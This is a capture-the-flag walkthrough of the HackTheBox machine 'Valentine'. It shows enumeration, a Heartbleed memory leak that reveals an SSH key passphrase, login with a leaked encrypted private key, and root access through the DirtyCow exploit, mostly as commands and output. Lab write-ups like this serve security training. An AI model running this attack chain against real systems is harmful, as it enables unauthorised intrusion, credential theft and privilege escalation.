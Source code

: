 ```yaml
---
private: 'false'
layout: post
featured: false
published: true
comments: true
modified: 2018-03-09
date: 2018-03-09
title: Writeup Hackthebox - Valentine
tags: [hackthebox]
mathjax: false
imagefeature: 
description: Writeup Hackthebox - Valentine
category: Hackthebox
chart: null
---
```



## Machine Detail
**Name :** Valentine<br>
**IP :** 10.10.10.79<br>
**Author :** mrb3n<br>
**Hostname :** valentine.htb<br>
**OS :** Linux<br>

## Discovery
first, use nmap to find what services available 
`nmap -sS 10.10.10.79 -v`

```
Discovered open port 22/tcp on 10.10.10.79
Discovered open port 443/tcp on 10.10.10.79
Discovered open port 80/tcp on 10.10.10.79
```

### Port 80
I try to open the website in port 80 and just got simple web page with 1 images
then we bruteforce the directory and filename using wordlist from dirbuster to find usefull file.

```
---- Scanning URL: http://10.10.10.79/ ----
+ http://10.10.10.79/cgi-bin/ (CODE:403|SIZE:287)
+ http://10.10.10.79/decode (CODE:200|SIZE:552)
==> DIRECTORY: http://10.10.10.79/dev/
+ http://10.10.10.79/encode (CODE:200|SIZE:554)
+ http://10.10.10.79/index (CODE:200|SIZE:38)
+ http://10.10.10.79/index.php (CODE:200|SIZE:38)
+ http://10.10.10.79/server-status (CODE:403|SIZE:292)
```

at this folder http://10.10.10.79/dev/ we found couple of interesting files `notes.txt` and `hype_key`

```
Content of notes.txt
To do:

1) Coffee.
2) Research.
3) Fix decoder/encoder before going live.
4) Make sure encoding/decoding is only done client-side.
5) Don't use the decoder/encoder until any of this is done.
6) Find a better way to take notes.
```

The idea i got from notes.txt is the encode/decode is not fully fixed, 
so maybe have couples of vulnerability issue, after that i trying to fuzzing the input in decode and encode
if i could guess the `decode.php` and `encode.php` maybe look like this

```php
/*decode.php*/
<?php
    echo base64_decode($_POST['text']);
?>

/*encode.php*/
<?php
    echo base64_encode($_POST['text']);
?>
```

so there is no way to get vulnerability there, the function looks safe,
lets move into another file is `hype_key` 

```
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: AES-128-CBC,AEB88C140F69BF2074788DE24AE48D46

DbPrO78kegNuk1DAqlAN5jbjXv0PPsog3jdbMFS8iE9p3UOL0lF0xf7PzmrkDa8R
5y/b46+9nEpCMfTPhNuJRcW2U2gJcOFH+9RJDBC5UJMUS1/gjB/7/My00Mwx+aI6
0EI0SbOYUAV1W4EV7m96QsZjrwJvnjVafm6VsKaTPBHpugcASvMqz76W6abRZeXi
Ebw66hjFmAu4AzqcM/kigNRFPYuNiXrXs1w/deLCqCJ+Ea1T8zlas6fcmhM8A+8P
OXBKNe6l17hKaT6wFnp5eXOaUIHvHnvO6ScHVWRrZ70fcpcpimL1w13Tgdd2AiGd
pHLJpYUII5PuO6x+LS8n1r/GWMqSOEimNRD1j/59/4u3ROrTCKeo9DsTRqs2k1SH
QdWwFwaXbYyT1uxAMSl5Hq9OD5HJ8G0R6JI5RvCNUQjwx0FITjjMjnLIpxjvfq+E
p0gD0UcylKm6rCZqacwnSddHW8W3LxJmCxdxW5lt5dPjAkBYRUnl91ESCiD4Z+uC
Ol6jLFD2kaOLfuyee0fYCb7GTqOe7EmMB3fGIwSdW8OC8NWTkwpjc0ELblUa6ulO
t9grSosRTCsZd14OPts4bLspKxMMOsgnKloXvnlPOSwSpWy9Wp6y8XX8+F40rxl5
XqhDUBhyk1C3YPOiDuPOnMXaIpe1dgb0NdD1M9ZQSNULw1DHCGPP4JSSxX7BWdDK
aAnWJvFglA4oFBBVA8uAPMfV2XFQnjwUT5bPLC65tFstoRtTZ1uSruai27kxTnLQ
+wQ87lMadds1GQNeGsKSf8R/rsRKeeKcilDePCjeaLqtqxnhNoFtg0Mxt6r2gb1E
AloQ6jg5Tbj5J7quYXZPylBljNp9GVpinPc3KpHttvgbptfiWEEsZYn5yZPhUr9Q
r08pkOxArXE2dj7eX+bq65635OJ6TqHbAlTQ1Rs9PulrS7K4SLX7nY89/RZ5oSQe
2VWRyTZ1FfngJSsv9+Mfvz341lbzOIWmk7WfEcWcHc16n9V0IbSNALnjThvEcPky
e1BsfSbsf9FguUZkgHAnnfRKkGVG1OVyuwc/LVjmbhZzKwLhaZRNd8HEM86fNojP
09nVjTaYtWUXk0Si1W02wbu1NzL+1Tg9IpNyISFCFYjSqiyG+WU7IwK3YU5kp3CC
dYScz63Q2pQafxfSbuv4CMnNpdirVKEo5nRRfK/iaL3X1R3DxV8eSYFKFL6pqpuX
cY5YZJGAp+JxsnIQ9CFyxIt92frXznsjhlYa8svbVNNfk/9fyX6op24rL2DyESpY
pnsukBCFBkZHWNNyeN7b5GhTVCodHhzHVFehTuBrp+VuPqaqDvMCVe1DZCb4MjAj
Mslf+9xK+TXEL3icmIOBRdPyw6e/JlQlVRlmShFpI8eb/8VsTyJSe+b853zuV2qL
suLaBMxYKm3+zEDIDveKPNaaWZgEcqxylCC/wUyUXlMJ50Nw6JNVMM8LeCii3OEW
l0ln9L1b/NXpHjGa8WHHTjoIilB5qNUyywSeTBF2awRlXH9BrkZG4Fc4gdmW/IzT
RUgZkbMQZNIIfzj1QuilRVBm/F76Y/YMrmnM9k/1xSGIskwCUQ+95CGHJE8MkhD3
-----END RSA PRIVATE KEY-----
```

this file encrypted with `AES-128-CBC` algorithm so we need to find
the password somehow, i didn't get anything by trying to bruteforce with
common wordlist and i looking for another approach.

### Port 22

the ssh service using this version `SSH-2.0-OpenSSH_5.9p1 Debian-5ubuntu1.10` and
I did not found exploit for this SSH Version

### Port 443

for this port SSL i try to scan using sslscan
```
•% ➜ sslscan 10.10.10.79
Version: 1.11.11-static
OpenSSL 1.0.2-chacha (1.0.2g-dev)

Connected to 10.10.10.79

Testing SSL server 10.10.10.79 on port 443 using SNI name 10.10.10.79

  TLS Fallback SCSV:
Server does not support TLS Fallback SCSV

  TLS renegotiation:
Secure session renegotiation supported

  TLS Compression:
Compression disabled

  Heartbleed:
TLS 1.2 vulnerable to heartbleed
TLS 1.1 vulnerable to heartbleed
TLS 1.0 vulnerable to heartbleed

  Supported Server Cipher(s):
Preferred TLSv1.2  256 bits  ECDHE-RSA-AES256-GCM-SHA384   Curve P-256 DHE 256
...snip... 
```
so this is vulnerable to heartbleed lets use this [heartbleed.py](https://gist.githubusercontent.com/eelsivart/10174134/raw/8aea10b2f0f6842ccff97ee921a836cf05cd7530/heartbleed.py)

`python ~/Tools/other_tools/heartbleed.py 10.10.10.79  -n 100 -a out`
i start to view the result and trying to decode all base64 there, and until i got this
base64 `aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==` which is decoded to
```
echo -n "aGVhcnRibGVlZGJlbGlldmV0aGVoeXBlCg==" |base64 -d
heartbleedbelievethehype
```

## Gaining Access

I try to decrypt the file `hype_key` using `heartbleedbelievethehype` as a passphrase

```
•% ➜ ssh-keygen -y -f hype_key
Enter passphrase:
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUU3iZcDCfeCCIML834Fx2YQF/TIyXoi6VI6S/1Z9SsZM9NShwUdRr3mPJocWOZ7RzuEbpRFZL1zgkykHfn8pR0Wc6kjQw4lCVGV237iqWlG+MSGRVOPuDS1Uma
N3dN6bLL541LNpTscE4RbNzPhP6pD5pKsSX7IcMsAfyZ9rpfZKuciS0LXpbTS6kokrru6/MM1u3DkcfxuSW8HeO6lWQ7sbCMLbCp9WjKmBRlxMY4Jj0tUsz8f66vGaHxWiaUzBFy5m82qfCyL9N4Yro1xe1RF8uC5
8i8rE/baDzW2GMK7JVcAvPiunu2J0QeWg8sVOytLLxPVxPrPKDb7CBEkzN
``` 

and i got `ssh-rsa` but the missing information here is who is the user of this ssh key ?
and i just trying every possibilies username `admin,root,heart,bleed,hype,coffe,research,dev` i try all of those and just getting the shell with `hype` username

```
•% ➜ ssh hype@10.10.10.79 -i hype_key
Enter passphrase for key 'hype_key':
Welcome to Ubuntu 12.04 LTS (GNU/Linux 3.2.0-23-generic x86_64)

 * Documentation:  https://help.ubuntu.com/

New release '14.04.5 LTS' available.
Run 'do-release-upgrade' to upgrade to it.

Last login: Fri Feb 16 14:16:34 2018 from 10.10.14.3
hype@Valentine:~$ ls -la Desktop/
total 12
drwxr-xr-x  2 hype hype 4096 Dec 13 11:11 .
drwxr-xr-x 21 hype hype 4096 Feb  5 16:41 ..
-rw-rw-r--  1 hype hype   33 Dec 13 16:54 user.txt
hype@Valentine:~$ cat ~/Desktop/user.txt
e6710a5464[REDACTED]6e076961750
```

after logged in to ssh we found user txt in Desktop folder 


## Privilege Escalation

We need to get information from this system like the permission file/folder
or Binary SUID and Check the Kernel if there was local exploit in wild.

`uname -a => Linux Valentine 3.2.0-23-generic #36-Ubuntu SMP Tue Apr 10 20:39:51 UTC 2012 x86_64 x86_64 x86_64 GNU/Linux`

the kernel look like old enough and this kernel would have local exploit released

-   running linux exploit suggester

```
  #############################
    Linux Exploit Suggester 2
  #############################

  Local Kernel: 3.2.0
  Searching among 70 exploits...

  Possible Exploits:
[+] dirty_cow
     CVE-2016-5195
     Source: https://www.exploit-db.com/exploits/40616/
[+] msr
     CVE-2013-0268
     Source: http://www.exploit-db.com/exploits/27297/
[+] perf_swevent
     CVE-2013-2094
     Source: http://www.exploit-db.com/download/26131
```

I could get root by using dirtycow exploit `CVE-2016-5195` :D

```

hype@Valentine:~/Pictures$ ./cowroot
DirtyCow root privilege escalation
Backing up /usr/bin/passwd.. to /tmp/bak
Size of binary: 42824
Racing, this may take a while..
/usr/bin/passwd is overwritten
Popping root shell.
Don't forget to restore /tmp/bak
thread stopped
thread stopped
root@Valentine:/home/hype/Pictures# id
uid=0(root) gid=1000(hype) groups=0(root),24(cdrom),30(dip),46(plugdev),124(sambashare),1000(hype)
root@Valentine:/home/hype/Pictures# cat /root/root.txt
f1bb6d759[REDACTED]bc9ed7765b2
```





